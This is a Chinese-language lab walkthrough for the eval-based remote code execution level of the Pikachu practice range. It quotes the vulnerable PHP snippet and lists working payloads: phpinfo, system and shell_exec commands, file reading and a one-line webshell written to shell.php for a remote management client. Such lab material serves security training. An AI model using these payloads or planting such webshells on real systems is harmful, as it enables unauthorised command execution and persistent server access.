

> 这是 Pikachu 靶场 RCE 模块 exec (eval) 关卡。
> **核心源码**：

```
if(isset($_POST['submit']) && $_POST['txt'] != null){
    if(@!eval($_POST['txt'])){
        $html .= "<p>你喜欢的字符还挺奇怪的!</p>";
    }
}
```

用户表单输入`txt`参数**直接丢进 eval ()**，eval 会把输入当做 PHP 代码执行，必须带分号`;`结尾。表单提交，输入框就是`txt`字段。

## 步骤 1：测试漏洞是否生效

在输入框提交：

```
phpinfo();
```

提交，如果弹出 PHP 信息页面，说明漏洞可用。

> 
> ⚠️注意：eval 要求完整 php 语句，**末尾必须写分号**，少分号就会返回提示：`你喜欢的字符还挺奇怪的!`

## 步骤 2：执行系统命令

### 方式 A system () 执行系统命令

```
system('ls');
```

看当前目录文件；
读取文件：

```
system('cat flag.php');
```

### 方式 B shell_exec（回显输出）

```
echo shell_exec('ls');
```

### 方式 C scandir 列目录 (PHP 函数，不需要单引号)

```
print_r(scandir('.'));
```

## 步骤 3：写一句话木马（拓展）

payload 输入框提交：

```
fputs(fopen('shell.php','w'),'<?php @eval($_POST["a"]);?>');
```

执行后网站目录生成`shell.php`，蚁剑连接地址`xxx/shell.php`，连接密码`a`。

## 常见踩坑

1. ❌不要写`<?php ... ?>`标签，eval 内部不需要 php 标签，直接写 PHP 函数；
2. ❌语句末尾**缺少分号** → 报错 “字符好奇怪”；
3. 部分环境`disable_functions`禁用`system`，就改用纯 PHP 函数：`scandir / file_get_contents`读取文件。


# ===============
实操结果
